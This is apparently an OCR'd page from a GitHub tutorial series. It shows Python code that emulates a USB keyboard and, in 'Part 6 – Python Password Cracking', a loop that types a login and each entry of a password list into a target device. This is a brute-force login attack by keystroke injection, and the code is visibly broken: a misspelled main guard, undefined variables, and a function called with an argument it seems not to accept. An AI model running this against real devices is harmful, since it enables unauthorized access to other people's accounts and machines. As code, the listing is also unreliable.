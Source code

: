 ```py
        '\F8':65,'\F9':66,'\F10':67,'\F11':68,'\F12':69,'\F13':104,
        '\F14':105,'\F15':106,'\F16':107,'\F17':108,'\F18':109,'\F19':110,
        '\F20':111,'\F21':112,'\F22':113,'\F23':114,'\F24':115
    }
    menu_key = {
        '\EXECUTE':116,'\HELP':117,'\MENU':118,'\SELECT':119,'\STOP':120,
        '\AGAIN':121,r'\UNDO':122,'\CUT':123,'\COPY':124,'\PASTE':125,
        '\FIND':126,'\MUTE':127,'\VOLUP':128,'\VOLDOWN':129,'\CAPLOCK':130,
        r'\NUMLOCK':131,'\SCROLLLOCk':132
    }

    #mod_key = {
    #    '\LEFTCTRL':1,'\LEFTSHIFT':2,'\LEFTALT':4,'\LEFTWIN':8,
    #    '\RIGHTCTRL':16,'\RIGHTSHIFT':32,'\RIGHTALT':64,'\RIGHTWIN':128
    #}

    merged_key = {}
    merged_key.update(action_key)
    merged_key.update(function_key)
    merged_key.update(menu_key)

    while typing:
        word = input('~~#:')
        if word =='exit()':
            typing = False # End the Loop
        elif word in merged_key:
            write_report(NULL_CHAR*2+chr(merged_key[word])+NULL_CHAR*5)
        elif word[:6] == '\SLEEP':
            time.sleep(int(word[6:]))
        else:
            translate(word)

        write_report(NULL_CHAR*8)

if _name_ == '__main__':
    interpret()
```

#### Part 6 – Python Password Cracking

<https://www.youtube.com/watch?v=nyThp_0Nc0E>

```py
current_dir = os.path.dirname(os.path.realpath(__file__))
path_pass = os.path.join(current_dir,'password.txt')
path_action1 = os.path.join(current_dir,'action1.txt')
path_action2 = os.path.join(current_dir,'action2.txt')

def cracking(login):
    log = login

    with open(path_pass,'r') as fout:
        var_pass = fout.readlines()
    with open(path_action1,'r') as fout:
        var_action1 = fout.readlines()
    with open(path_action2,'r') as fout:
        var_action2 = fout.readlines()

    for passwd in var_pass:
        interpret(log)
        interpret(action1)
        interpret(passwd)
        interpret(action2)

```
